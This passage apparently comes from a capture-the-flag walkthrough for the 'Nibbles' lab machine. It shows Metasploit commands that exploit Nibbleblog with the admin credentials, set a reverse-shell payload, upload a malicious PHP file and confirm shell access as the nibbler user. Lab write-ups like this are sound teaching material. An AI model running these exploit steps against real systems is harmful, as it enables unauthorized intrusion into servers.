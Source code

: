 - The key parameters here are:
    
    - **RHOSTS**: The target IP address.
    - **RPORT**: The target port, typically 80 for web servers.
    - **USERNAME and PASSWORD**: In this case, the username and password for the Nibbleblog admin user (use `admin` for username and `nibbles` for the password).
    - **TARGETURI**: The path to the web application (set it to `nibbleblog`).
    
    Example commands:
    
    ```bash
    set username admin
    set password nibbles
    set targeturi nibbleblog
    
    ```
    

### 6. **Setting the Payload**

- After configuring the exploit options, you need to set a payload. By default, Metasploit suggests using `php/meterpreter/reverse_tcp`. However, you will switch this to a simpler payload like `generic/shell_reverse_tcp`, which gives you a reverse shell.
    
    ```bash
    set payload generic/shell_reverse_tcp
    
    ```
    
- Verify the payload options by typing `show options` again to make sure everything is set properly.
    

### 7. **Running the Exploit**

- Once everything is configured, type `exploit` to run the attack:
    
    ```bash
    exploit
    
    ```
    
- This will initiate the exploit, uploading a malicious PHP file that gives you a reverse shell. Once it succeeds, you’ll see a shell prompt connected to the target.
    
- You can confirm you have gained access by typing:
    
    ```bash
    id
    
    ```
    
    This command will return something like:
    
    ```bash
    uid=1001(nibbler) gid=1001(nibbler) groups=1001(nibbler)
    
    ```
    
    indicating that you're now logged in as the `nibbler` user.
    